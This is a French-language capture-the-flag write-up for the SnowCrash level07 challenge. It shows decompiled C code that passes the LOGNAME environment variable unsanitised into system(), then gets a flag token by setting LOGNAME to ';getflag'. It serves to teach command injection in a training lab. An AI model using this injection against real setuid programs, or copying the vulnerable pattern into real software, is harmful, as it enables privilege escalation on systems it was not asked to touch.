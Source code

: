 On commence par lister les fichiers

```bash
level07@SnowCrash:~$ ls
level07
```

En décompilant le binaire via le site [dogbolt](https://dogbolt.org)

```c
char *var_1c = NULL;
asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
return system(var_1c);
```

On observe qu'il récupère la valeur de la variable d’environnement **LOGNAME** via `getenv("LOGNAME")`.

Par défaut, le programme affiche simplement la valeur de **LOGNAME**
```bash
level07@SnowCrash:~$ ./level07 
level07
```

On peut confirmer la valeur actuelle de **LOGNAME**
```bash
level07@SnowCrash:~$ env | grep LOGNAME
LOGNAME=level07
```

Le programme ne fait pas un simple ajout d'argument à la commande `echo`, mais à la place format le prompt comme si c'était une commande.

On peut donc modifier la variable d’environnement **LOGNAME** pour y injecter un appel à `getflag`.

```bash
level07@SnowCrash:~$ export LOGNAME=";getflag"
level07@SnowCrash:~$ ./level07 

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
